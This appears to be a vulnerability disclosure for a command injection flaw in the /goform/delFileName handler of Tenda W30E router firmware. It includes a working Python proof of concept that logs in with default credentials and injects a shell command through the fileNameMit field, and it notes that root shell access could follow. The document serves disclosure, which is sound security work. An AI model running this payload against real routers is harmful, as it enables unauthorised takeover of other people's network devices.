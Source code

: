 # Tenda W30E V1.0.1.25(633) command injection vulnerability

## Firmware information

- Manufacturer's address：https://www.tenda.com.cn/

- Firmware download address ： https://www.tenda.com.cn/download/detail-2218.html


## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/W30E/exeCommand/img/1.png)

## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/W30E/delFileName/2.png)

In /goform/delFileName, fileNameMit will be strtok into v5, and finally put into doSystemCmd. It is worth noting that there is not too much checking, which leads to command injection vulnerability

## Poc

```python
import requests

cmd = b'fileNameMit=;ls -al . > ./tmp/test;'

url = b"http://192.168.10.103/login/Auth"
payload = b"http://192.168.10.103/goform/delFileName/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()
```

You can see that the command was executed successfully, and finally you can write exp to get the root shell
